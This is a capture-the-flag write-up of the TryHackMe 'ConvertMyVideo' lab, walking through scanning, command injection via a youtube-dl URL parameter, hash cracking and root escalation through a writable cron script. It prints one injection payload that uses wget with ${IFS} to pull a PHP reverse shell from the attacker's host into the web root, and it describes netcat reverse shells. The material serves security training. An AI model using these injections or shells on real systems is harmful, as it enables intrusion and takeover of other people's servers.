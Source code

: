 # ConvertMyVideo TryHackMe Writeup
## Level: Medium
## OS: Linux

![logo](1.png)

## Scanning
We launch nmap with scripts and software versions on all ports.

![](2.png)

## Enumeration
We access the website, we see that it is a simple application that collects the ID of a youtube video.

![](3.png)

We use **dirsearch** and list an interesting directory.

![](6.png)

We entry the *"/*******/"* directory and list a basic authentication panel.

![](4.png)

We continue reviewing the variable *"yt_url"* of the web application, investigating by Google I find this [github:](https://github.com/ytdl-org/youtube-dl/) where it shows us useful commands.

#### --version

![](7.png)

The **"--exec"** command not working....It seems that there are problems with the coding, looking for a way to solve the problem I discovered a way to be able to execute the **"ls"** command without problems.

![](8.png)

Okay, so let's use the payload so we can read the first flag.

![](9.png)


## Exploitation
We create a pentestmonkey reverse shell, raise a python server, set a netcat listening and use the following command to obtain a connection on the victim machine.

![](10.png)

```bash
<`wget${IFS}10.11.30.149:8000/m3.php${IFS}-O${IFS}/var/www/html/m3.php`
```

#### Reverse shell

![](11.png)

Once we have access to the inside of the machine, we read the file *".htpasswd"* and crack the hash with the dictionary **"rockyou.txt"**.

![](12.png)

#### Cracking with JTR

![](13.png)

## Privilege Escalation
After launching several reconnaissance scripts, I end up analyzing the processes that are being executed by the system on a scheduled basis with **pspy** tool and we detect a *"clean.sh"* script running with *"UID=0" (root)*.

![](14.png)

We check the permissions we have on the file, we see that we can write to it, so we insert a line to invoke a reverse shell with **netcat** and we put another **netcat** listening in our Kali.

![](15.png)

We wait a few minutes for the script to run with our malicious code and we will have an interactive connection as root.

![](16.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='50' align='center'> [@David_Uton](https://twitter.com/David_Uton)
